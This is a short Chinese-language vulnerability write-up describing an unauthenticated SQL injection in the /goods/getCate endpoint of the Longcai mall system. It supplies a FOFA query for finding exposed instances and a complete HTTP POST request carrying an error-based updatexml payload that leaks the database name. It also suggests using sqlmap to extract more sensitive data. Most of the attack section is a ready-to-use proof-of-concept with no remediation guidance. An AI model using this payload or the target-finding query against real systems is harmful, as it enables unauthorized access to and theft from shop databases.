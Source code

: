 # 龙采商城系统后台/goods/getcate存在SQL注入

### 一、漏洞描述
龙采科技集团有限责任公司龙采商城系统后台/goods/getCate接口存在未授权SQL注入，可直接暴露出数据库敏感信息。

### 二、影响版本
龙采商城系统

### 三、资产测绘
FOFA：body="'url':'/pc2.0/index/index'"

![1715916044415-70ff5169-8fd9-48e0-8c05-91ac458ccde4.png](./img/GOhx3tRoZc_7z5pI/1715916044415-70ff5169-8fd9-48e0-8c05-91ac458ccde4-841370.png)

### 四、漏洞复现
```plain
POST /goods/getCate HTTP/2
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 65

id=1%20and%20updatexml(1,concat(0x7e,database(),0x7e),1)&keyword=
```

使用burp请求POC即可暴出敏感数据库（也可以采用sqlmap跑出大量敏感信息）

![1715916319450-8e51a0ec-7878-4d2d-a04f-c7cc9af69340.png](./img/GOhx3tRoZc_7z5pI/1715916319450-8e51a0ec-7878-4d2d-a04f-c7cc9af69340-172677.png)



> 更新: 2024-06-01 11:14:23  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/dyk2it32v9mtbdqw>